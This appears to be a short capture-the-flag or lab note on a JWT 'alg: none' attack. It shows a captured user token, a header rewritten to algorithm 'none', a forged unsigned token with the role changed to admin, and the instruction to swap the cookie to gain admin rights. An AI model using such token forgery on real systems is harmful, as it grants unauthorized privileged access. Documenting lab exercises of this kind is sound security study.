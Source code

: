 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjIzNDEzNjE3MDg1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6NzguMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC83OC4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2MjM0MTM2MTd9.eagSGB_Ubo096W_zGMnmrF_dB-VvfEBEn29pKkZwTQk

jwt header for Algo: none
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
```

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjIzNDE1NTk2MTMzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6NzguMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC83OC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjIzNDE1NTk2fQ.`


![[Pasted image 20210611183126.png]]

and replace the cookie and we are admin

![[Pasted image 20210611183203.png]]


## bruteforce


![[Pasted image 20210611190232.png]]
